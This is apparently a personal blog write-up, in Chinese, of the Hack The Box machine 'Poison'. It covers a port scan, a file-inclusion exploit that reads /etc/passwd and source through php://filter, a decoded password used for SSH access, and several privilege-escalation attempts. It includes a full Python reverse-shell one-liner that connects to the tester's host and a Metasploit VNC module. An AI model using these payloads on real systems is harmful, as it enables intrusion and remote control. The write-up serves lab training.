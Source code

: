 ```yaml
---
categories:
- training
tags: 
    - training,tools
---
```


#### 1. 端口扫描
ip: 10.10.10.84
>22/tcp   open  ssh
80/tcp   open  http
5802/tcp open  vnc-http-2
5902/tcp open  vnc-2
5903/tcp open  vnc-3
6002/tcp open  X11:2
6003/tcp open  X11:3

嗯，确认是linux系统
#### 2. web探测

![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/2.PNG)
一看到浏览器上的URL：`file=xxx`，就富有职业精神的输入`../../../../../etc/passwd`

![啊哈~一个文件包含](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/3.PNG)

> Info1——机器上普通用户名称:
 hast:*:845:845:HAST unprivileged user:/var/empty:/usr/sbin/nologin
nobody:*:65534:65534:Unprivileged user:/nonexistent:/usr/sbin/nologin
_tss:*:601:601:TrouSerS user:/var/empty:/usr/sbin/nologin
messagebus:*:556:556:D-BUS Daemon User:/nonexistent:/usr/sbin/nologin
avahi:*:558:558:Avahi Daemon User:/nonexistent:/usr/sbin/nologin
charix:*:1001:1001:charix:/home/charix:/bin/csh

运行：`http://10.10.10.84/browse.php?file=php://filter/convert.base64-encode/resource=config.php`

>Info2——文件路径：
Warning: include(php://filter/convert.base64-encode/resource=config.php): failed to open stream: operation failed in /usr/local/www/apache24/data/browse.php on line 2
Warning: include(): Failed opening 'php://filter/convert.base64-encode/resource=config.php' for inclusion (include_path='.:/usr/local/www/apache24/data') in /usr/local/www/apache24/data/browse.php on line 2

于是用php协议，访问browse.php，用hackbar解码一下。
![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/4.PNG)
本来想用dirbuster扫描下存在的文件，再用文件包括去查看敏感文件。。。
但是，这个实验中，主页面上有一个listfiles.php，访问以后，直接指出了一个pwdbackup.txt。

![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/5.PNG)
上面说这个密码很安全，它被加密了13次。真的还能出什么问题。
然后我一看，我去，base64编码还好意思说安全，加密13次又有什么意义吗？
我还是太菜，手动把密文的\n去掉，然后再解码，很多次解码后，密码为：`Charix!2#4%6&8(0`

方法二：
sed -i 's/\n//g' pwdbackup.txt
>Info3——口令
Charix!2#4%6&8(0

- Trying:
`ssh charix@10.10.10.84`

charix/Charix!2#4%6&8(0
**ssh登陆成功**
![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/6.PNG)

#### **3.提权**

/home/charix目录下有三个文件，一个flag；一个secret，是空文件；还有一个secret.zip。
那么需要解压一下，tar -zxvf secret.zip
提示`x secretEnter passphrase:`
那么需要输入密码，然后尝试错误密码，会反复提示`Enter passphrase`。
通过Info3口令，成功解压。
解压后是secret文件，类型为：`secret: Non-ISO extended-ASCII text, with no line terminators`

用cat secret，显示为乱码。

![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/7.PNG)

![vi secret](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/8.png)

- sudo、gcc----------->command not found
- su             ------> Sorry
- uname -a查看内核版本，应该不是内核漏洞提权。
```
FreeBSD Poison 11.1-RELEASE FreeBSD 11.1-RELEASE #0 r321309: Fri Jul 21 02:08:28 UTC 2017     root@releng2.nyi.freebsd.org:/usr/obj/usr/src/sys/GENERIC  amd64
```
- `nc -l 999` -------> nc: Permission denied

- Trying（SUID提权，[参考](https://pentestlab.blog/tag/find/)）。
`find / -user root -perm -4000 -exec ls -ldb {} \;`
执行结果中，没有namp、vim、find等等可以提权的程序。

有意思的是，在连接过程中，ssh命令面板突然不灵了，无法输入任何命令。
重新连进去以后，我的readme.txt多了一行。。。看来遇到同道中人了。

- Trying：测试nc，用服务端连接kali。成功连接。
![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/%E6%8D%95%E8%8E%B7%202.PNG)

不是吧。。又连不上了，第一次遇到被人挤下线。

![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/%E6%8D%95%E8%8E%B7%203.PNG)

查看一下进程这些都是远程连进来的。。。
![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/%E6%8D%95%E8%8E%B7%204.PNG)

- Trying：太卡了，弹一个python shell。
本地：`nc -lvp 1234`
服务器：`python ‐c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.198",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","‐i"]);'`

- Trying :
 python -m SimpleHTTPServer 888
```
Traceback (most recent call last):
  File "/usr/local/lib/python2.7/runpy.py", line 174, in _run_module_as_main
    "__main__", fname, loader, pkg_name)
 。。。此处省略几十行
socket.error: [Errno 13] Permission denied
```
- Trying：

![找到网站所在目录](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/%E6%89%BE%E5%88%B0%E7%BD%91%E7%AB%99%E6%89%80%E5%9C%A8%E7%9B%AE%E5%BD%95.png)

![3权限不够](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/3%E6%9D%83%E9%99%90%E4%B8%8D%E5%A4%9F.png)

- Trying:
尝试vnc远程命令执行
![查看开放端口](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/9.PNG)

![netstat](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/4netstat.PNG)

![尝试vnc远程命令执行](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/%E6%8D%95%E8%8E%B7%205.PNG)

use exploit/multi/vnc/vnc_keyboard_exec
set RHOST
set PASSWORD
set RPORT

试了好多密码，包括里面secret文件。失败

#### 2018.9.28.总结
[writeup参考](http://www.hackingarticles.in/hack-the-box-poison-walkthrough/)

[SSH原理与运用（二）：远程操作与端口转发](http://www.ruanyifeng.com/blog/2011/12/ssh_port_forwarding.html)
![01](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/01.PNG)

**通过绑定本地和远程的端口，就可以用vncviewer命令，使用密钥，开启vnc窗口**
vncviewer  -passwd secret  127.0.0.1:5901


